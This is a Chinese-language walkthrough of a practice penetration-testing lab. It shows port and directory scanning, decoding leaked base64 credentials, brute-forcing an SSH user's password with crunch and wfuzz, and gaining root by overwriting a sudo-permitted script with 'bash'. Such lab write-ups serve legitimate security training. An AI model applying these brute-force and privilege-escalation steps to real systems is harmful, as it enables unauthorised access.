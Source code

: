 VM网络不通也没法改密码进去，只能下个VirtualBox和VMware互通了

[vmware与virtualbox虚拟机互通\_vmware和virtualbox互联-CSDN博客](https://blog.csdn.net/m0_55857257/article/details/133683725)
但这也不行，看来只能使用端口映射了
[Virtualbox虚拟机与主机相互访问\_virtualbox win7虚拟机与本机互访-CSDN博客](https://blog.csdn.net/lxyoucan/article/details/125058943)


# 服务探测
```c
┌──(kali㉿kali)-[~]
└─$ nmap -sV -A -T 4 -p- 192.168.18.238

```
21,22,80
这里有个ftp有个匿名访问，里面有个output 文件，记录一些登录后的操作，我们先放着。可以知道一个用户名是matthew
# 目录扫描
```css
gobuster dir -u http://192.168.18.2338/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt,png -e
```

这里发现一个任意注册接口http://192.168.18.238/create_account.php，发现存在一定的规律，创建成功后会以bash64的方式返回账号密码
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ echo "dXNlcm5hbWU9YWRtaSZwYXNzd29yZD1hZG1pMjAyNEA3NzEy" | base64 -d    
username=admi&password=admi2024@7712 
```
解码后，发现密码的规律是用户名+2024@四位随机数，但是这是去年的靶场，所以应该是2023

发现还有一个用户名遍历漏洞，只要是被注册的用户都会返回 Username already exists

所以我们尝试爆破matthew用户，可以用burp但是太慢，我用wfuzz
先生成一个字典
```c
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ crunch 4 4 0123456789 -o 1234

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ for i in {1000..10000};do echo $i;done > numbers.txt

┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ wfuzz -X POST -d "username=matthew&password=matthew2024@FUZZ" -w 1234 -u http://192.168.18.238/login.php --hw 103
=====================================================================
ID           Response   Lines    Word       Chars       Payload     
=====================================================================

000001555:   302        0 L      0 W        0 Ch        "1554"  
```

所以用户密码是`matthew: matthew2023@1554
ssh连接
```js
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh matthew@192.168.18.238  //matthew2023@1554

matthew@uvalde:~$ cat user.txt 
6e4136fbed8f8c691996dbf42697d460

```
# 提权
```c
sudo -l //(ALL : ALL) NOPASSWD: /bin/bash /opt/superhack
这里有个勒索程序
matthew@uvalde:~$ sudo /bin/bash /opt/superhack 
Pay 0.000047 BTC to 3FZbgi29cpjq2GjdwV8eyHuJJnkLtktZc5 to unlock backdoor.                                                        
```
不过这里写什么并不重要，重要的是我们可以修改该文件
我们将superhack 文件重命名为superhack.back，然后重新创建一个superhack 文件，里面写入bash，然后使用sudo 执行，成功获取root 权限。
```c
matthew@uvalde:~$ cd  /opt/
matthew@uvalde:/opt$ mv superhack superhack.bak
matthew@uvalde:/opt$ echo "bash" > superhack

```
